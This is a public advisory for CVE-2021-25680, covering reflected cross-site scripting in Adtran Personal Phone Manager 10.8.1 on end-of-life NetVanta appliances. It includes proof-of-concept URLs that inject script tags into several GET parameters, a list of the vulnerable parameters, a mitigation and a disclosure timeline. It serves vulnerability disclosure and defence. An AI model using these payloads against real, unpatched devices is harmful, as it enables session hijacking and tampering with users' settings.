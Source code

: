 XSS
---

    # Exploit Title: Adtran Personal Phone Manager 10.8.1 - 'Multiple' Reflected Cross-Site Scripting (XSS)
    # Date: 1/21/2021
    # Exploit Author: 3ndG4me
    # Vendor Homepage: https://adtran.com/web/page/portal/Adtran/wp_home
    # Version: v10.8.1
    # Tested on: NetVanta 7060 and NetVanta 7100
    # CVE : CVE-2021-25680

    # CVE-2021-25680 - Adtran Personal Phone Manager Multiple Reflected XSS

    --Summary--

    The AdTran Personal Phone Manager software is vulnerable to multiple reflected cross-site scripting (XSS) issues. These issues impact at minimum versions 10.8.1 and below but potentially impact later versions as well since they have not previously been disclosed. Only version 10.8.1 was able to be confirmed during primary research

    ADTRAN, Inc
    https://adtran.com

    --Affects--

    - AdTran Personal Phone Manager
    - Verified on v10.8.1
    - **Note**: The affected appliances NetVanta 7060 and NetVanta 7100 are considered End of Life and as such this issue will not be patched. It is recommended impacted users update to an actively supported appliance.

    --Details--

    The AdTran Personal Phone Manager software is vulnerable to multiple reflected cross-site scripting (XSS) issues. These issues impact at minimum versions 10.8.1 and below but potentially impact later versions as well since they have not previously been disclosed. Only version 10.8.1 was able to be confirmed during primary research. These issues work by passing in a basic XSS payload to vulnerable GET parameters that are reflected in the output without saniztization. This can allow for several issues including but not limited to:

    - Hijacking a user's session
    - Modifying a user's configuration settings
    - Using XSS payloads to capture input (keylogging)


    -- Proof of Concept --
    The following URL parameters were impacted and can be exploited with the sample payloads provided below:
    - https://example.com/userapp/userSettings.html?emailSuccessMessage=%3Cscript%3Ealert(document.cookie)%3C/script%3E
    - https://example.com/userapp/phoneSettings.html?successMessage=%3Cscript%3Ealert(document.cookie)%3C/script%3E
    - https://example.com/userapp/phoneSettingsAction.html?formAction=&callForwardingFlag=1&callForwardNumber=SOMEDATA"><script>alert`XSS`</script>&apply=Apply Changes
    - https://example.com/userapp/directoriesAction.html?formAction=applySpeedDialChanges&callEntryToDelete=&newSpeedDialName(1)=&newSpeedDialNumber(1)=&newSpeedDialName(2)=&newSpeedDialNumber(2)=&newSpeedDialName(3)=&newSpeedDialNumber(3)=&newSpeedDialName(4)=&newSpeedDialNumber(4)=&newSpeedDialName(5)=&newSpeedDialNumber(5)=&newSpeedDialName(6)=&newSpeedDialNumber(6)=&newSpeedDialName(7)=&newSpeedDialNumber(7)=&newSpeedDialName(8)=&newSpeedDialNumber(8)=&newSpeedDialName(9)=&newSpeedDialNumber(9)=&newSpeedDialName(10)=&newSpeedDialNumber(10)=&newSpeedDialName(11)=&newSpeedDialNumber(11)=&newSpeedDialName(12)=&newSpeedDialNumber(12)=SOMEDATA<script>alert`XSS`</script>&newSpeedDialName(13)=&newSpeedDialNumber(13)=&newSpeedDialName(14)=&newSpeedDialNumber(14)=&newSpeedDialName(15)=&newSpeedDialNumber(15)=&newSpeedDialName(16)=&newSpeedDialNumber(16)=&newSpeedDialName(17)=&newSpeedDialNumber(17)=&newSpeedDialName(18)=&newSpeedDialNumber(18)=&newSpeedDialName(19)=&newSpeedDialNumber(19)=&newSpeedDialName(20)=&newSpeedDialNumber(20)=&applySpeedDialChanges=Apply

    The vulnerable parameters that were identified impact more pages than just the above. Any page that renders a response using the following parameters is impacted by this issue:
    - emailSuccessMessage
    - successMessage
    - callForwardNumber
    - newSpeedDialNumber(#)


    --Mitigation--

    Sanitize any user controlled input in both form fields and URL paramaters to properly encode data so it is not rendered as arbitrary HTML/JavaScript.

    --Timeline--

    - 1/21/2021: XSS Vulnerabilities were discovered and documented. A temporary CVE identifier was requested by MITRE. AdTran was also notified with the full details of each finding via their product security contact at https://adtran.com/web/page/portal/Adtran/wp_product_security. A baseline 90 day disclosure timeline was established in the initial communication.
    - 1/22/2021: Placeholder CVE-2021-25680 was assigned by MITRE.
    - 1/29/2021: A response from AdTran's Product Security Team was received.
    - 2/8/2021: The researcher responded to the email acknowledging receipt. The encrypted email contents appeared to be corrupted so a request was made to resend the data.
    - 2/9/2021: AdTran's Product Security Team replied with a re-encrypted copy of the previous communication made on 1/29/2021. The reasearcher was able to successfully decrypt the contents of this communication. The communication informed the researcher that the disclosed issues targeting NetVanta 7060 and NetVanta 7100 would not be addressed. The justification for this decision is that software support ended in June of 2018, and product EOL occurred in December of 2020. As such AdTran would not be invesitgating the issues leaving the details of the findings as is. The reseacher responded with acknowledgement to the decision and requested support to proceed with full disclosure outside of the previously established 90 day timeline.
    - 2/11/2021: AdTran's product security team responded to the request for full disclosure. They informed the researcher that they would like to discuss the decision internally first. The researcher acknowledged the request and affirmed they would not procceed with disclosure until further notice.
    - 3/1/2021: AdTran's product security team reached out to inform the researcher that they would support the full disclosure of the vulnerability at the researcher's discretion. They provided a few details on model names to include as EOL for the disclosure details.
    - 3/2/2021: The researcher acknowledges the approval and informs the product security team that a link will be provided to any future publications once the vulnerability is publicly disclosed.
    - 3/3/2021: The researcher begins constructing a private repository to prepare the write ups for release.
    - 4/17/2021: The researcher publishes the repository for full disclosure and notifies MITRE to update the CVE entry details.
